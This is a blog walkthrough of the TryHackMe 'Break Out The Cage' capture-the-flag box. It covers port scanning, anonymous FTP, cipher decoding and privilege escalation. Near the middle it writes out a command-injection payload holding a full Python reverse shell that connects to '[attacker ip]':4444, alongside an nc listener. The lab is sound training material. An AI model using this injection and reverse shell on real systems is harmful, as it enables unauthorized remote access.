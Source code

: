 ```yaml
---
layout: post
title: "Break Out The Cage - TryHackMe"
date: 2020-07-11
excerpt: "Walkthrough for Break Out The Cage on TryHackme"
tags: [Break Out The Cage, TryHackMe, encryption, email]
comments: false
---
```




Break Out the Cage is another recently released easy box on [TryHackme](https://www.tryhackme.com). Let's start off with a port scan with **nmap -p- -T4 [machine ip]** This will return 3 open ports: ftp, ssh, and http. 

![Break Out The Cage nmap1](/assets/img/BreakOutTheCage1.png)

Let's enumerate these 3 ports with **nmap -sC -sV -O -p 21,22,80 [machine ip]**

![Break Out The Cage nmap2](/assets/img/BreakOutTheCage2.png)

It appears that there is anonymous FTP access open, let's login as anonymous with **ftp [machine ip]** and enter **anonymous** for the username and password. We are able to successfully connect. I tried to list the directory and received an error so I change the mode to passive with **passive** and I was able to run **ls**. There was a file named **dad_tasks**, that I saved locally to my machine with **get dad_tasks**. I then exited the FTP site with **bye**

![Break Out The Cage ftp dad_tasks](/assets/img/BreakOutTheCage3.png)

Running **cat dad_tasks** from my local machine gives me results that are encoded, most likely in base 64.

![Break Out The Cage cat dad_tasks](/assets/img/BreakOutTheCage4.png)

Let's run **cat dad_tasks | base64 -d** to decode it from base64. This gives us a different type of encoding.

![Break Out The Cage base64 decode](/assets/img/BreakOutTheCage5.png)

This appears to be some sort of cipher. I tried several, and ended up finding out it is a Vigenere cipher. Since I didn't have the key, I used a [Vigenere solver](https://www.guballa.de/vigenere-solver) to assist with cracking this, which results in the following.

![Break Out The Cage Vigenere Cipher](/assets/img/BreakOutTheCage6.png)

The last line contains what appears to be Weston's password, which is the answer to question one.

Now that we have a password, let's try to ssh in as weston with **ssh weston@[machine ip]**. Enter the password that was recovered above. Success, now we are logged in as weston.

![Break Out The Cage ssh user access](/assets/img/BreakOutTheCage7.png)

Let's see what weston can run as root with **sudo -l**. We are given the following results:

![Break Out The Cage sudo -l](/assets/img/BreakOutTheCage8.png)

Let's run that file and see what happens. It prints some text. Running **cat /usr/bin/bees** shows you that this is a bash script.

![Break Out The Cage bees](/assets/img/BreakOutTheCage24.png)

Unfortunately, we are not able to edit this file. However, every few minutes a broadcast message from cage comes up.

![Break Out The Cage broadcast](/assets/img/BreakOutTheCage9.png)

We are not able to access cage's home directory as weston. However, if we run **id**, we can see that weston is part of both the weston and cage groups

![Break Out The Cage id](/assets/img/BreakOutTheCage10.png)

Let's use **find / -group "cage" -print 2>/dev/null** to find all files with the group owner of cage.

![Break Out The Cage find](/assets/img/BreakOutTheCage12.png)

We already know we don't have access to /home/cage, but let's try to navigate to /opt/.dads_scripts/ with **cd /opt/.dads_scripts** and view directory contents and permissions with **ls -al**

![Break Out The Cage dads_scripts](/assets/img/BreakOutTheCage13.png)

It appears we only have read to the python script, so we can't modify it directly. Let's view the contents of the script to see what it does with **cat spread_the_quotes.py**

![Break Out The Cage spread_the_quotes.py](/assets/img/BreakOutTheCage14.png)

It looks like it is opening a file in /opt/.dads_scripts/.files/.quotes and reading a random line and then echoing it. Let's navigate to that directory with **cd /opt/.dads_scripts/.files/**. Next let's run **ls -al**. It appears we have access to write to the **.quotes** file as the cage group has write permissions to it.

![Break Out The Cage .files](/assets/img/BreakOutTheCage15.png)

Let's run **vi .quotes** to open up the contents for editing and delete everything out of the file. This can be done by pressing **dd** over and over until all the lines are deleted. Next, press Insert and  **-- INSERT --** should show up at the bottom of the screen. This allows you to enter in new information. Let's enter the following: **"test" && python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("[attacker ip]",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'**. This will end the wall command's input which will send out test as a broadcast, and then && will run the command after, which is a way to create a reverse shell. Next, press escape followed by **:wq!** to write and quit vim. 

![Break Out The Cage .quotes](/assets/img/BreakOutTheCage16.png)

In another terminal window, run **nc -nvlp 4444** and wait a few minutes for the script to run. You should receive a reverse shell connection as cage. Running **whoami** confirms this and running **ls -al** shows an **email_backup** directory and a file called **Super_Duper_Checklist**. Let's view the contents of the Checklist first with **cat Super_Duper_Checklist**.

![Break Out the Cage cat Super_Duper_Checklist](/assets/img/BreakOutTheCage18.png)

This is the user flag for this box. Let's now see if cage has any sudo level permissions. Let's run **sudo -l**. Unfortunately, it asks for cage's password which we do not have. Let's go review the email_backup folder by typing in **cd email_backup**. Running **ls -al** shows 3 files here. Using **cat em*** will type the contents of all 3 emails.

![Break Out The Cage email_backup](/assets/img/BreakOutTheCage19.png)

The emails mention a Face Off sequel and have several references to the word face in them. The last email has something interesting in it based on a weird note from the agent.

![Break Out The Cage email_3](/assets/img/BreakOutTheCage20.png)

This appears to be another encrypted message. Let's see if this is also a Vigenere cipher. The word face is mentioned over and over and over in these emails, so let's see if that's the key to the cipher. Since we are assuming this is the correct key, let's use this [Vigenere Cipher Decoder](https://www.boxentriq.com/code-breaking/vigenere-cipher) to decode the cipher.

![Break Out The Cage Vignere Cipher Decoder](/assets/img/BreakOutTheCage21.png)

In the 3rd email, it states that it likely has something to do with his account on this server. Since there are no other users, it's safe to assume that this could potentially be the password for root. Let's run **su root** and enter the password we obtained above.

![Break Out The Cage su root](/assets/img/BreakOutTheCage22.png)

Success! We now have root access. Let's see if we can find the root flag now. Let's navigate to root's home folder with **cd /root** and run **ls -al**. We will see an email_backup folder. Let's navigate to it with **cd email_backup** and run **ls **, we see two emails in this folder.

![Break Out the Cage finding root flag](/assets/img/BreakOutTheCage23.png)



Let's run **cat em*** to view their contents. In the bottom of the second email is the root flag.

![](/assets/img/BreakOutTheCage24.png)

Success, this is the root flag for this challenge!

